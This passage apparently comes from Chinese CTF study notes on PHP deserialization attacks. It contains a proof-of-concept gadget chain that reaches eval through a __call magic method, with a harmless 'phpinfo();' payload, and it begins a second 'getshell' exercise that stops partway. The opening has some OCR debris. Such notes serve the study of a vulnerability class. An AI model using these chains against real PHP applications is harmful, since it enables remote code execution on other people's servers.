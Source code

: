 ```

highlight_file(__FILE__)
?>
```

poc(1)

```
<?php
class A{
    public function __call($name, $arguments)
    {
        eval($arguments[0]);
    }
}
class B{
    public $x;
    public $y;
    public function __construct(){
        $this->x=new A();
        $this->y='phpinfo();';
    }
    public function nihao()
    {
        echo "nihao";
    }

}
$b=new B();
echo serialize($b);

// 敏感函数是eval 在 类 A中 
// 类A 中存在一个魔法方法 ：__call 调用不存在的方法时触发  ==> 目标就是触发 __call 方法
// 类B 中 对象B 调用变量 x = nihao(变量y) 

//构造poc x=new A      x->niao(y) 对象X 调用类A 中不存在的方法nihao 报错 触发 __call($name, $arguments) $name=y $arguments=y的参数
//给y赋值 y='phpinfo();';
```

##### 例题2

```php
读取flag
<?php
highlight_file(__FILE__);
#flag is  flag.txt
class getshell
{
    public $hello;
    public function __call($name, $arguments)
    {
        $this->hello[$name]($arguments[0]);
    }
}

class b
{
    public $x;
    public $y;

    public function __destruct()
    {
        $this->x->nihao($this->y);
    }
```